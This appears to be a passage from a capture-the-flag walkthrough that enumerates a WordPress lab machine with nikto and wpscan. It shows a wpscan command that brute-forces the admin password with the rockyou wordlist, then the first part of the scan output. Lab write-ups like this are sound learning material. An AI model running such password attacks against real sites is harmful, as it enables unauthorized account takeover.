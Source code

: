 notable that it says wordpress version 5.4.2 (looked up has nothing good) it also shows a http://10.10.217.97/wordpress/wp-content/themes/twentyseventeen/style.css directory

nikto found this:
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
through manual enumeration we see an admin account exists on the login page

┌──(root㉿kali)-[/home/kali]
└─# wpscan --url http://10.10.140.182/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.140.182/blog/ [10.10.140.182]
[+] Started: Tue May  6 21:10:50 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.140.182/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.140.182/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
